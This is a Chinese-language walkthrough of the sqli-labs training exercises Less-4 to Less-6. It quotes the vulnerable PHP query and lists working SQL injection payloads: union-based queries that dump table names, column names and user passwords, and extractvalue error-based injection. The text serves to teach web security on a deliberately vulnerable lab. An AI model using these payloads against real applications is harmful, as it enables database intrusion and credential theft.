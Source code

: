### sqli-labs/Less-4

输入`1'`没有报错

查看源代码

~~~php
$id = '"' . $id . '"';//拼接"，变量id，"
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
~~~

根据源代码可知，输入1'，执行`SELECT * FROM users WHERE id=("1'") LIMIT 0,1`，1'作为字符串被传递。

分析：可用`1")`封闭前面的`'("`，并用`--+`或`%23`将后面的内容注释

后续用联合注入即可。

过程：

* 查字段
  * `1") order by 3--+`
  * ``1") order by 4--+`

* 显位
  * `0") union select 1,2,3--+`
* 联合注入
  * `0") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`
  * `0") union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+`
  * `0") union select 1,group_concat(username),group_concat(password) from "users"--+`

### sqli-labs/Less-5

输入`1`显示`you are in……`

输入`1'`报错

使用报错注入`pyload：id=1'and(select extractvalue("anything",concat('~',(select语句))))`

### sqli-labs/Less-6

报错注入

输入`0`无显示内容

输入`1`显示`you are in……`

输入`1"`有报错信息

使用报错注入`pyload：id=1"and(select extractvalue("anything",concat('~',(select语句))))`